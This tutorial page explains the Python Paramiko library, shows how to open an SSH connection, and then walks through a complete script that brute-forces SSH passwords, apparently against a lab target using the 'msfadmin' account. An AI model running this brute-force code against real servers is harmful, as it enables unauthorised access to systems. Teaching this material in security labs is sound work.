 ```yaml
---
title: "Brute forcing an SSH connection"
description: ""
lead: ""
draft: false
images: []
weight: 140
toc: true
---
```


---

## What is Paramiko?

Paramiko is a Python implementation of SSH (Secure Shell) protocol which allows Python programs to establish secure connections to remote servers. Here's how you can install Paramiko and some basic usage instructions:

### Installation
You can install Paramiko using pip, the package installer for Python. To install the latest version of Paramiko, run the following command:


    pip install paramiko


### Basic Usage

First, you need to import the Paramiko library in your Python script:

    import paramiko


---

## Establish an connection

Let's uses the Paramiko library to establish an SSH connection to a remote server.

The first step is to import the Paramiko library in your Python script.

     import paramiko

### Define connection parameters

Next, define the connection parameters like IP address, username, and password of the remote server you want to connect to.

    ip = '192.168.198.136'
    username = 'ubuntu'
    password = 'pa$$w0rd'
    timeout = 5

In this example, we are using IP address 192.168.198.136 with ubuntu as the username and pa$$w0rd as the password. We are also setting a timeout value of 5 seconds.

### Set up the SSH client
Create an instance of the SSHClient class and set the missing_host_key_policy attribute to AutoAddPolicy. This will automatically add the remote server's SSH key to the local machine's list of known hosts.

    client_policy = paramiko.AutoAddPolicy()
    client = paramiko.SSHClient();
    client.set_missing_host_key_policy(client_policy)

### Connect to the remote server

Use the connect() method of the SSH client instance to establish an SSH connection with the remote server.

    client.connect(ip, username=username, password=password, timeout=timeout)

In this example, we are passing the IP address, username, password, and timeout value to the connect() method.

### Print the SSH client object
Finally, print the SSH client object to verify that the connection has been established successfully.

    print(client)

### Close the connection

After you are finished with the connection, you should close it to free up system resources.

    client.close()


## Bruteforce SSH

This is an example of a brute force attack using the Paramiko library to attempt to log in to an SSH server. The script creates a client object, defines a Brutes class that generates password guesses, and tries to connect to the SSH server using each password guess until the correct one is found.

Here are the steps to understand this script:

### Libraries


    import itertools as it
    import string
    from utils import timefunc
    import paramiko

This code imports the necessary libraries, including itertools, string, timefunc from the utils module, and paramiko.

### Define the create_client function


    def create_client():
        client = paramiko.SSHClient()
        client_policy = paramiko.AutoAddPolicy()
        client.set_missing_host_key_policy(client_policy)
        return client

This function creates an SSH client object using the paramiko library, sets the client's policy to auto-add any new host key, and returns the client object.

### Define the Brutes class


    class Brutes:
        def __init__(self, charset, length, ip):
            self.charset = charset
            self.length = length
            self.ip = ip
        
        @timefunc
        def crackit(self, username):
            client = create_client()
            for guess in self.guesses:
                try:
                    print(guess)
                    client.connect(self.ip, username=username, password=guess, timeout=0.5)
                    print('The password is {}'.format(guess))
                    return guess
                except paramiko.AuthenticationException as e:
                    print('{} is not it.'.format(guess)) 
                finally:
                    client.close()
        
        @property
        def guesses(self):
            for guess in it.product(self.charset, repeat=self.length):
                yield ''.join(guess)


This class takes in three arguments: the character set used to generate password guesses, the length of the password guesses, and the IP address of the target SSH server. The crackit method attempts to connect to the SSH server using each password guess generated by the guesses property until the correct password is found or all guesses have been exhausted. The guesses property generates all possible combinations of the characters in the character set for the given length.

### Define the main function

    def main():
        charset = 'aspeb'#'pqrstuvwxyzabcdefghijklmno'
        ip = '10.0.13.231'
        brute = Brutes(charset, 4, ip)
        password = brute.crackit(username='msfadmin')
        if password:
            print('Found {}'.format(password))

This function sets the character set, IP address, and length of the password guesses, creates a Brutes object, and attempts to crack the SSH password for the specified username. If the password is found, it is printed to the console.

### Run the code


    if __name__ == '__main__':
        main()



